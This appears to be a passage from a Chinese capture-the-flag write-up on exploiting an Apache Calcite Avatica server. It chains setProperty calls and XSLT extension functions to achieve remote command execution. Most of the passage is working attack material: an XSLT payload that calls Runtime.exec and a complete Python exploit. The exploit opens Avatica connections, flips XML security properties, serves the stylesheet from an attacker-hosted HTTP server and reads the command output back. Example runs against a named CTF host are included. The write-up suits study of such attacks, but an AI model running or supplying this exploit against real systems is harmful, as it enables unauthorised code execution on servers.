声明后，`rt:getRuntime()` 会调用 `Runtime.getRuntime()`，`rt:exec($r, $cmd)` 会调用实例方法 `exec`。对于类特定命名空间，实例方法调用方式是把实例对象作为第一个参数传入。

JDK 21 的 XSLTC 对可调用包存在限制。测试结果如下：

| 方法或包范围 | 结果  | 说明  |
| --- | --- | --- |
| `java.lang.*` | 可用  | `System`、`Runtime`、`String`、`Process` 等可用 |
| `java.io.*` | 可用  | `File`、`FileInputStream`、`InputStreamReader`、`BufferedReader` 等可用 |
| `java.util.*` | 可用  | `Scanner` 等可用 |
| `java.nio.file.*` | 不可用 | `Paths`、`Files` 等在编译阶段被拒绝 |
| 通用 `java:` 命名空间 | 不可用 | 无法通过通用命名空间调用任意实例方法 |

这意味着不能依赖 `java:new()` 或 `java:getInputStream()` 这种通用 Java 扩展调用。不过类特定命名空间中的构造函数和实例方法是可用的，例如 `s:new(...)`、`s:nextLine($sc)`，前提是对应方法没有被 XSLTC 编译器拒绝。

测试 `Scanner` 读取输出流时发现，`Scanner.hasNext()`、`Scanner.toString()`、`Scanner.useDelimiter()` 都能正常编译和执行，但 `Scanner.next()` 会在 XSLT 编译阶段被拒绝。`xmlTransform` 捕获 `TransformerConfigurationException` 后表现为 `"Illegal xslt specified"`。

测试结果如下：

| 方法  | 返回类型 | 结果  |
| --- | --- | --- |
| `hasNext()` | `boolean` | 可用  |
| `hasNextInt()` | `boolean` | 可用  |
| `toString()` | `String` | 可用  |
| `useDelimiter(String)` | `Scanner` | 可用  |
| `next()` | `String` | 编译失败 |
| `nextLine()` | `String` | 可用  |
| `findAll()` | `Stream` | 编译失败 |

`nextLine()` 和 `next()` 都是无参并返回 `String`，但只有 `nextLine()` 能通过编译。推测原因可能与 XSLTC 字节码生成器处理名为 `next` 的方法时存在命名冲突或内部保留字有关。这里不依赖该推测作为利用前提，只需要确认 `Scanner(File).nextLine()` 可用即可。

通过 Avatica `prepareAndExecute` 执行 SQL，导入外部 XSLT，外部 XSLT 内容如下：

```xml
<?xml version="1.0"?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
  xmlns:proc="http://xml.apache.org/xalan/java/java.lang.Process"
  xmlns:s="http://xml.apache.org/xalan/java/java.util.Scanner"
  version="1.0">
<output method="text"/>
<template match="/">
<variable name="r" select="rt:getRuntime()"/>
<variable name="p" select="rt:exec($r,'/readflag')"/>
<variable name="rc" select="proc:waitFor($p)"/>
<variable name="stream" select="proc:getInputStream($p)"/>
<variable name="sc" select="s:new($stream)"/>
<value-of select="s:nextLine($sc)"/>
</template>
</stylesheet>
```

通过这种方式，`/readflag` 的输出不再落地到临时文件，而是直接从子进程 stdout 读取并作为 SQL 查询结果返回。

这里仍然需要保留 `prepareAndExecute` 请求中的 `"maxRowsInFirstFrame": 1`，或任意大于 0 的值。因为最终 flag 是通过 SQL 查询结果返回的，如果该参数为默认的 `0`，即使查询已经产生结果，`firstFrame.rows` 也可能是空数组。这是 Avatica 协议的行为特性。

核心交互流程如下：

```text
Connection A:
  openConnection → createStatement
  → setProperty(enableExtensionFunctions, true)
  → setProperty(accessExternalStylesheet, all)
  → setProperty(accessExternalDTD, all)

Connection B:
  openConnection → createStatement
  → prepareAndExecute(select X('<a/>', IMPORT_STUB))  // exec: /readflag, read stdout by Scanner.nextLine()
  → 🚩 flag
```

exp 如下

```python
import argparse
import json
import socket
import sys
import threading
import time
import http.server
import urllib.error
import urllib.request

MODEL_SYSTEM = "version: 1.0\ndefaultSchema: S\nschemas:\n- name: S\n  functions:\n  - className: java.lang.System\n    methodName: \"*\"\n"
MODEL_XML = "version: 1.0\ndefaultSchema: S\nschemas:\n- name: S\n  functions:\n  - name: X\n    className: org.apache.calcite.runtime.XmlFunctions\n    methodName: xmlTransform\n"

STUB = '<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform" version="1.0"><import href="http://{h}:{p}{path}"/></stylesheet>'

XSLT_PAYLOAD = """<?xml version="1.0"?>
<stylesheet xmlns="http://www.w3.org/1999/XSL/Transform"
  xmlns:rt="http://xml.apache.org/xalan/java/java.lang.Runtime"
  xmlns:proc="http://xml.apache.org/xalan/java/java.lang.Process"
  xmlns:s="http://xml.apache.org/xalan/java/java.util.Scanner"
  version="1.0">
<output method="text"/>
<template match="/">
<variable name="r" select="rt:getRuntime()"/>
<variable name="p" select="rt:exec($r,'/readflag')"/>
<variable name="rc" select="proc:waitFor($p)"/>
<variable name="stream" select="proc:getInputStream($p)"/>
<variable name="sc" select="s:new($stream)"/>
<value-of select="s:nextLine($sc)"/>
</template>
</stylesheet>"""


def send(url, payload):
    data = payload.encode()
    if len(data) > 280:
        return {"error": "SIZE_EXCEEDED"}
    req = urllib.request.Request(url, data=data,
                                 headers={"Content-Type": "application/json;charset=utf-8"},
                                 method="POST")
    try:
        with urllib.request.urlopen(req, timeout=15) as r:
            return json.loads(r.read().decode())
    except urllib.error.HTTPError as e:
        return {"error": f"HTTP {e.code}", "raw": e.read().decode(errors="replace")}


def open_conn(url, cid, model):
    p = json.dumps({"request": "openConnection", "connectionId": cid,
                    "info": {"jdbcUrl": "jdbc:calcite:", "model": "inline:" + model}},
                   separators=(',', ':'))
    r = send(url, p)
    return cid if r.get("response") == "openConnection" else None


def create_stmt(url, cid):
    p = json.dumps({"request": "createStatement", "connectionId": cid}, separators=(',', ':'))
    r = send(url, p)
    return r.get("statementId") if r.get("response") == "createStatement" else None


def sql(url, cid, sid, text):
    p = json.dumps({"request": "prepareAndExecute", "connectionId": cid,
                    "statementId": sid, "sql": text, "maxRowsTotal": 1,
                    "maxRowsInFirstFrame": 1}, separators=(',', ':'))
    r = send(url, p)
    if r is None or "error" in str(r):
        return None
    if r.get("response") == "error":
        return None
    for result in r.get("results", []):
        rows = result.get("firstFrame", {}).get("rows", [])
        if rows:
            vals = [row[0] if isinstance(row, list) and row else row for row in rows]
            return [v.split("?>", 1)[1] if isinstance(v, str) and v.startswith("<?xml") else v for v in vals]
    return []


class XsltServer(http.server.BaseHTTPRequestHandler):
    def do_GET(self):
        data = XSLT_PAYLOAD.encode()
        self.send_response(200)
        self.send_header("Content-Type", "application/xml")
        self.send_header("Content-Length", str(len(data)))
        self.end_headers()
        self.wfile.write(data)

    def log_message(self, fmt, *args):
        pass


def main():
    parser = argparse.ArgumentParser()
    parser.add_argument("-t", "--target", required=True, help="target host[:port] (default port 8080)")
    parser.add_argument("-l", "--lhost", help="attacker IP for XSLT callback (auto-detect if omitted)")
    parser.add_argument("-p", "--lport", type=int, default=9999, help="attacker HTTP port (default 9999)")
    args = parser.parse_args()

    target = args.target
    if ":" in target:
        host, port = target.rsplit(":", 1)
    else:
        host, port = target, "8080"

    url = f"http://{host}:{port}/"

    if args.lhost:
        lhost = args.lhost
    else:
        s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
        try:
            s.connect(("10.255.255.255", 1))
            lhost = s.getsockname()[0]
        except Exception:
            lhost = "127.0.0.1"
        finally:
            s.close()

    lport = args.lport

    cid_a = "a" + hex(int(time.time() * 1000))[-4:]
    cid_b = "b" + hex(int(time.time() * 1000))[-4:]

    if not open_conn(url, cid_a, MODEL_SYSTEM):
        print("conn A failed"); sys.exit(1)
    sid_a = create_stmt(url, cid_a)
    if sid_a is None:
        print("stmt A failed"); sys.exit(1)

    sql(url, cid_a, sid_a, "select\"setProperty\"('jdk.xml.enableExtensionFunctions','true')")
    sql(url, cid_a, sid_a, "select\"setProperty\"('javax.xml.accessExternalStylesheet','all')")
    sql(url, cid_a, sid_a, "select\"setProperty\"('javax.xml.accessExternalDTD','all')")
    tf = sql(url, cid_a, sid_a, "select\"getProperty\"('javax.xml.transform.TransformerFactory')")
    if tf and tf[0] is not None:
        sql(url, cid_a, sid_a, "select\"setProperty\"('javax.xml.transform.TransformerFactory','')")

    if not open_conn(url, cid_b, MODEL_XML):
        print("conn B failed"); sys.exit(1)
    sid_b = create_stmt(url, cid_b)
    if sid_b is None:
        print("stmt B failed"); sys.exit(1)

    httpd = http.server.HTTPServer(("0.0.0.0", lport), XsltServer)
    threading.Thread(target=httpd.serve_forever, daemon=True).start()
    time.sleep(0.5)

    stub = STUB.format(h=lhost, p=lport, path="/p")
    result = sql(url, cid_b, sid_b, f"select X('<a/>','{stub}')")
    if result:
        print(result[0])
    else:
        print("exploit failed"); sys.exit(1)

    httpd.shutdown()


if __name__ == "__main__":
    main()


## python3 exploit.py -t 127.0.0.1:56086 -l host.docker.internal -p 8888

## python3 exploit.py -t web-e4af8e6a62.adworld.xctf.org.cn:80 -l 154.36.181.12 -p 8888
```





> https://github.com/AntSwordProject/ant_php_extension
> https://github.com/php/php-src/issues/11878
> https://calcite.apache.org/docs/adapter.html
